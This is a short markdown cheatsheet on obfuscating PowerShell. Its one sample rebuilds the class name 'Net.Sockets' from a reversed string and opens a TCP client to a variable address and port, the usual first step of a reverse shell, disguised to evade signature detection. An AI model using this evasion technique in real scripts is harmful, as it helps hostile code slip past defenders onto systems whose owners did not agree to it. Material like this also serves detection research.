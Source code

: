 # Cheatsheet PS1 obfuscation

**Sample for reverse string**
```
$String = "stekcoS.teN"
$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''

$client = New-Object System.$class.TCPClient($IPAddress,$Port)
```